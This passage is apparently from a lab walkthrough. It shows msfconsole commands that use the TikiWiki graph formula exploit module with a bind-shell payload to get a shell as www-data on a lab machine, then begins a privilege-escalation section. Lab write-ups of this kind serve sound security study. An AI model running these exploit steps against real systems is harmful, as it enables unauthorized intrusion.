 Before we move on to rooting the box, lets use the Metasploit console to gain our shell directly. This saves us some time in that we do not need to upload our own php reverse shell. In order to do so, we open msfconsole and issue the following commands.

```console
search tikiwiki
use exploit/unix/webapp/tikiwiki_graph_formula_exec
set RHOST 10.0.2.4
show options
show payloads
set payload generic/shell_bind_tcp
show options
exploit
```

![metasploit_reverseshell](./images/metasploit_reverseshell.png)
\ **Figure 17:** Reverse shell via Metasploit.

We now have a shell on the target machine as the user `www-data` (we've done it two different ways). It is time to escalate our privileges to root.

## Root

Typically to find privilege escalations we would run an enumeration tool such as [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration). In the case of this lab we're already aware of what we're supposed to do. That tool would surely point out to us though that the `/root` directory was readable to other users, if we weren't previously aware.
